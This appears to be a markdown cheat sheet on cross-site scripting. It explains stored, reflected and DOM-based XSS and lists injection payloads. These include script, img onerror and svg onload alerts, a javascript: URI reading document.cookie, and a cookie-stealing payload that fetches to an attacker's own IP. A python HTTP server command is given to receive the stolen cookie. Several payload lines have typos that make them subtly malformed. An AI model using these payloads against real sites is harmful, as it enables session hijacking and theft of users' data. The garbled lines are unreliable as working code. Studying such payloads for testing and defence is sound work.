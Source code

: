 Cross-Site Scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker injects malicious code, usually in the form of scripts, into a web page or application, which is then executed by unsuspecting users who visit that page. The injected code can steal sensitive data, manipulate web content, or perform actions on behalf of the user without their consent.

There are three main types of XSS attacks:

1. **Stored XSS:** The malicious code is permanently stored on a server and is served to multiple users when they access a specific page or resource. This type of XSS can have a long-lasting impact as it affects all subsequent visitors to the compromised page.
    
2. **Reflected XSS:** In this case, the injected code is reflected off a web server and immediately executed in response to a user's request. Typically, the attacker tricks the user into clicking on a malicious link containing the payload.
    
3. **DOM-based XSS:** This type of XSS occurs when the client-side script in a web page manipulates the Document Object Model (DOM) without proper sanitization or validation, allowing an attacker to execute malicious code on the client-side.
# Basic script
```bash
<script>alert("hi")</script>
```

# Image script
With this type of script we are trying to upload an image, but providing a wrong source. We generate this error on purpose to execute the *onerror* javascript function that prints hi in a pop-upp suing alert.
```bash
<img src='x' onerror=alert("hi") />
```

Also, we can use the onclick javascript's function. If we upload an image with a valid source when we click the image it will spawn the pop-up with the alert message.
```bash
<img src"<valid url>" onclick=alert("hi") />
```

# SVG script
When this code is injected into a web page, the SVG image will be loaded, and as soon as it's loaded, the `onload` event will fire, executing the JavaScript code and displaying the "1" in a pop-up alert box. It uses an SVG (Scalable Vector Graphics) element to trigger the JavaScript alert.

```bash
<svg onload=alert(1)>
```

- Example:
If we are attacking a web where whatever you insert will be assigned to the variable query, this option of XSS could be useful.
```bash
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}

QUERY="><svg onload=alert(1)>
```

# DOM XSS using an anchor in jQuery
```bash
javascript:alert(document.cookie)
```
The code executes on the client side, within the user's browser. It doesn't rely on the server processing user input or delivering malicious content in the server response. Instead, it relies on manipulating the Document Object Model (DOM) of the current web page.

If an attacker can inject this code into a web page by manipulating user-generated content (e.g., through input fields or URLs), the injected code will execute within the user's browser. For example, an attacker might craft a URL like `https://example.com/?input=javascript:alert(document.cookie)` and trick a user into clicking it.

# Obtaining Cookie
If we can introduce XSS code into a petition that will be processed by the administration server, we can try to obtain it's cookie by running the following code: 
```bash
<img src'x' onerror=fetch('http://<own-ip>:<port>/+document.cookie);>
```
With this petition we induce the victim server to execute JS code. With this code the server tries to execute  a wrong image and on the error sends it's cookie to our machine. Before executing this payload is necessary to open a local port.
```bash
pyton3 -m http.server 80
```